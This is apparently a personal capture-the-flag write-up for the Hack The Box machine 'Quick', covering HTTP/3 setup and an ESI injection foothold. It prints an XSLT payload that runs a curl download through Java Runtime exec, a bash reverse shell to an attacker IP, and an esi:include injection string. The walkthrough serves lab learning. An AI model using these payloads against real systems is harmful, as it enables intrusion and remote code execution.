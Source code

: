 # Quick (HTTP/3, Symlinks, ESI Injection)

Quick is a hard difficulty Linux machine that features a website running on the  HTTP/3 protocol. Enumeration of the website reveals default credentials. The client portal is found to be vulnerable to ESI (Edge Side Includes) injection. This is used to obtain code execution and gain a foothold. A weak password gives access to a printer console, which permits the addition of new printers. Weak file permissions are exploited to move laterally. Plaintext credentials exposed in a configuration are reused to escalate to root. The official HTB writeup is below:

[Quick walkthrough](https://app.hackthebox.eu/machines/Quick/walkthroughs)

## Skills Learned:

- HTTP/3 Protocol
- Using Symlinks
- ESI Injection
- Since the http server is running on a weird port, you should do a full port scan as well as a UDP scan
- Keep in mind that UDP is connectionless so the results aren't always what they seem to be

### Problems I Ran Into

1. **Installing Quiche**
- Since you cannot connect to HTTP/3 via normal browsers like firefox or chrome, you have to use the QUIC protocol
- You can use a client called quiche which can be found [here](https://github.com/cloudflare/quiche)
- To install this client properly you need the correct version of rust and cargo and these can be installed using rustup

```
sudo apt autoremove rustc
sudo apt autoremove cargo
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
// Rustup installs the latest versions of rustc and cargo
// Never run cargo as sudo, it won't allow you anyway 
// You might also want to install cmake if it is not installed already
// Don't clone the quiche repository in a directory owned by root
git clone --recursive https://github.com/cloudflare/quiche.git
cd quiche
cargo build --examples
// you will find the HTTP/3 client in:
cd target/debug/examples 
```

1. **Foothold**
- problem I ran into was getting the shell. the server from the attacker machine is supposed to be a PHP server because that one executes when it is connected to. run this with `sudo php -S 0.0.0.0:80`
- make an empty `xml` file on your attacker machine eg `pwn.xml`
- make the `esi.xsl` on your machine as well (same folder)

```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[curl http://10.10.14.4/shell -o /tmp/shell]]>
</xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

- make a bash file called `shell` on your machine (same folder as other two) and put the bash reverse shell one liner:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.6/9001 0>&1
```

- when making the ticket use this code snippet as the message:

```xml
<esi:include src="http://10.10.16.6/pwn.xml" stylesheet="http://10.10.14.4/esi.xsl">
</esi:include>
```

- now run the search ticket query and the bash script will be made on the remote server
- edit the `esi.xsl` script on you machine to run the command that'll run the bash script and spawn a reverse shell.
